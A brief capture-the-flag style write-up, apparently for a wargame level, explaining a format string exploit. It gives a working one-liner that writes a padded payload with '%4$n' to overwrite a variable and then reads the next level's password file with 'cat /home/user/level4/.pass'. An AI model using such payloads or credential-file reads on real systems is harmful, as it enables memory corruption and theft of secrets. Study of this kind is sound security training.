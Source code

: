 in the source, we need to overwrite m to be equal to 64,  so that it passes the cmp

(python -c 'print("\x08\x04\x98\x8c"[::-1] + "\x90"*(64-4) + "%4$n")' && echo 'cat /home/user/level4/.pass') | ./level3
"Since we need to write 64 into m, we write 64 characters (4 from the address of m and 60 from the "0" padding). Then, we use the %n format specifier to record the count of bytes written so far into the fourth argument, which is m's address."

https://owasp.org/www-community/attacks/Format_string_attack